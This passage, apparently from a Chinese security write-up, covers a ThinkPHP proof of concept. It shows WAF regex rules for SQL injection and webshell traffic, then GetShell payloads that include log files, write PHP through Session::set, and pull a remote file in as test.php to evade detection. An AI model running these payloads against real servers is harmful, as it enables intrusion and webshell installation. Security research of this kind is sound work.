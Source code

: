 ```Python
    '23.SQL注入过滤10': '(substr\\()',
    '24.SQL注入过滤1': '(ORD\\(|MID\\(|IFNULL\\(|CAST\\(|CHAR\\()',
    '25.SQL注入过滤1': '(EXISTS\\(|SELECT\\#|\\(SELECT|select\\()',
    '26.菜刀流量过滤': '(array_map\\("ass)',
    '27.SQL注入过滤1': '\\|+\\s+[\\w\\W]+=[\\w\\W]+',
    '28.SQL报错注入过滤01': '(bin\\(|ascii\\(|benchmark\\(|concat_ws\\(|group_concat\\(|strcmp\\(|left\\(|datadir\\(|greatest\\()',
    '29.': '(?:from.+?information_schema.+?)',
    '30.SQL注入过滤8': '(?:(?:current_)user|database|schema|connection_id)\\s*\\(',
    '31.SQL注入过滤10': 'group\\s+by.+\\(',
    '32.SQL报错注入过滤01': '(extractvalue\\(|concat\\(0x|user\\(\\)|substring\\(|count\\(\\*\\)|substring\\(hex\\(|updatexml\\()',
    '33.SQL报错注入过滤02': '(@@version|load_file\\(|NAME_CONST\\(|exp\\(\\~|floor\\(rand\\(|geometrycollection\\(|multipoint\\(|polygon\\(|multipolygon\\(|linestring\\(|multilinestring\\()',
    '34.SQL注入过滤1': '(ORD\\(|MID\\(|IFNULL\\(|CAST\\(|CHAR\\))'
}

for name, reg in regex.items():
    reg = re.compile(reg, re.I | re.M)
    r = reg.findall(value)
    if r:
        print('规则名：{0}\n规则内容：{1}\n命中内容：{2}'.format(name, reg.pattern, r))
```

可以看到我们刚才使用的脚本是这样被检测出来的

```
规则名：16.SQL注入过滤8
规则内容：(?:(?:current_)user|database|concat|extractvalue|polygon|updatexml|geometrycollection|schema|multipoint|multipolygon|connection_id|linestring|multilinestring|exp|right|sleep|group_concat|load_file|benchmark|file_put_contents|urldecode|system|file_get_contents|select|substring|substr|fopen|popen|phpinfo|user|alert|scandir|shell_exec|eval|execute|concat_ws|strcmp|right)\s*\(
命中内容：['file_get_contents (']
```

### 2.3 GetShell方法

这个Poc的GetShell的办法是包含文件，通常是thinkphp的日志文件

`_method=__construct&method=get&filter[]=think\__include_file&server[]=-1&get[]=../runtime/log/2019xx/xx.log`

但是这样有时候会有问题，就是thinkphp的日志文件比较大，而且有时候会有很多奇怪的问题阻断代码执行

所以也可以通过thinkphp本身Library中设置Session的方法把脚本写入tmp目录里的Session文件，然后进行包含

`_method=__construct&filter[]=think\Session::set&method=get&server[REQUEST_METHOD]=<? phpinfo();?>`

### 2.4 绕过方式探究

#### 2.4.1 Copy函数绕过

`_method=__construct&filter[]=call_user_func&method=get&server[REQUEST_METHOD]=<?=copy("http://192.168.31.174/test.txt","test.php");?>`
